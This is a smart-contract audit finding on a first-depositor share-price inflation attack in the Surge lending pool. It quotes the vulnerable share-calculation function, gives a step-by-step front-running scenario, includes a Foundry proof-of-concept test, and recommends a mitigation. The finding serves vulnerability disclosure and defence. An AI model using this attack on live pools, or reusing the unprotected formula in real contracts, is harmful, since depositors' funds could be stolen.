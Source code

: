 Juntao

high

# First depositor can inflate share price and steal funds from other users

## Summary
Attacker can first deposit small amount of loan token to get pool tokens, and front-run other depositors' transactions and inflate pool token price by large "donation", thus attacker can withdraw more loan tokens than he initially owned.

## Vulnerability Detail
User can get pool token by depositing loan tokens to Pool, the amount of minted pool token is calculated as:

 ```solidity
function tokenToShares (uint _tokenAmount, uint _supplied, uint _sharesTotalSupply, bool roundUpCheck) internal pure returns (uint) {
    if(_supplied == 0) return _tokenAmount;
    uint shares = _tokenAmount * _sharesTotalSupply / _supplied;
    if(roundUpCheck && shares * _supplied < _tokenAmount * _sharesTotalSupply) shares++;
    return shares;
}
```

Let's assume:
1. Alice deployes a pool and submits transaction to deposit 2 ether;
2. Bob sees Alice's transaction in mempool and front-runs by first depositing 1 wei to the pool and then get 1 pool token;
3. Bob then transfers 1 ether loan token directly to the pool, inflates pool token price to (1 ether + 1);
4. Alice's deposit transaction gets confirmed and Alice get 1 pool token;
5. Bob withdraw from pool and get 1.5 ether loan tokens back, making 0.5 ether profit.

Test Code for PoC:
```solidity
function testFirstDeposit() public {
    address alice = address(1);
    address bob = address(2);

    deal(address(loanToken), bob, 1 ether + 1);
    deal(address(loanToken), alice, 2 ether);

    vm.startPrank(bob);
    loanToken.approve(address(pool), 1);
    pool.deposit(1);
    loanToken.transfer(address(pool), 1 ether);
    vm.stopPrank();

    vm.startPrank(alice);
    loanToken.approve(address(pool), 2 ether);
    pool.deposit(2 ether);
    vm.stopPrank();

    vm.startPrank(bob);
    pool.withdraw(type(uint256).max);
    assertEq(loanToken.balanceOf(bob), 1500000000000000000);
    vm.stopPrank();
}
```

## Impact
User's deposited loan tokens may be stolen by attacker.

## Code Snippet
[https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L305-L343](https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L305-L343)
[https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L193-L204](https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L193-L204)

## Tool used

Manual Review

## Recommendation
Consider minting a minimal amount of pool tokens during the first deposit and sending them to zero address, this increases the cost of the attack. [Uniswap V2](https://uniswap.org/whitepaper.pdf) uses the value 1000 as it is small enough to don't hurt the first minter, while still increasing the cost of this attack by 1000x.
